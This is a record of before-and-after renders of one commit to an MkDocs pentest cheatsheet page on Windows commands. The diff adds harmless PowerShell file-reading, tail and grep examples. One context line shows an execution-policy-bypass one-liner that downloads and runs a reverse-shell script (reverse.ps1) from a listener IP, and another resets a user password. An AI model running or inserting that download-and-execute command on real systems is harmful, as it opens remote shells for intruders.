

Before and after one commit to trojand/cheatsheet, an MkDocs documentation site: the page built from docs/Useful_Commands/Windows.md, in a window 1280 px wide and 1400 px high, scrolled down 1414 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; before the commit the page ends 2112 px from its top, so only the background shows below that.

Commit message:
Update Windows.md

````diff
--- a/docs/Useful_Commands/Windows.md
+++ b/docs/Useful_Commands/Windows.md
@@ -70,4 +70,32 @@ net user trojand imareallyreallyreallylongpasswordnow
     powershell -Exec Bypass -c "IEX(New-Object System.Net.WebClient).DownloadString(`"""http://10.0.1.5:1337/reverse.ps1`""")"
     ```
 
+### cat, tail, grep in Windows PS
+* Reading Files
+    ```powershell
+    Get-Content output.log
+    ```
+* Tail
+    ```powershell
+    Get-Content output.log -Tail <number of lines>
+    Get-Content output.log -Tail 10
+    ```
+* Tail -f
+    ```powershell
+    Get-Content output.log -Tail 10 -Wait
+    ```
+* Grep
+    ```powershell
+    Get-Content output.log | Select-String -Pattern "<pattern>"
+    Get-Content output.log | Select-String -Pattern "password"
+    ```
+* Grep -A 3
+    ```powershell
+    Get-Content output.log | Select-String -Pattern "password" -Context 0,3
+    ```
+* Tail -f | Grep -A 3
+    ```powershell
+    Get-Content output.log -Tail 10 -Wait | Select-String -Pattern "password" -Context 0,3
+    ```
+
 [^1]: [Abatchy](https://www.abatchy.com/2017/03/powershell-download-file-one-liners)
````
